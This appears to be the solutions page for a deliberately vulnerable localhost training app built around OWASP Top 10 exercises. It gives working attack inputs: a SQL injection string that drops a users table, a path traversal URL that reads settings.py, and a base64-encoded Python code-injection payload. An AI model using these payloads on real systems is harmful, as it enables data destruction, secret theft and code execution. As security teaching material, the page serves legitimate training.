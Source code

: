 # Exercise Solutions

Don't read this until you are ready for solutions (cheating is no fun, right?).


## A1: Injection - SQL Injection

Submit the form with:

    '; drop table users;--


The solution is available live in the app after you've tried it.


## A1 Injection - Malicious File Access

Start with

    http://localhost:8000/user-pic?p=hacker.jpg

Change the p= parameter to walk the file system:

    http://localhost:8000/user-pic?p=../../settings.py


## A1 Injection - Malicious Code Execution

Open a interactive Python session.

If you're using Python 3, execute:

    import base64
    base64.encodestring(b"open('p0wned.txt','w').write('boom!')")

If you're using Python 2, execute:

    import base64
    base64.encodestring("open('p0wned.txt','w').write('boom!')")

Copy and paste the value into the textbox:

    b3BlbigncDB3bmVkLnR4dCcsJ3cnKS53cml0ZSgnYm9vbSEnKQ==

The solution is available live in the app after you've tried it.


## A2: Broken Authentication & Session Management

No exercises for this section.


## A3: Cross Site Scripting - URL Path

Start with:

    http://localhost:8000/cross-site-scripting/path-matching/your-path-here
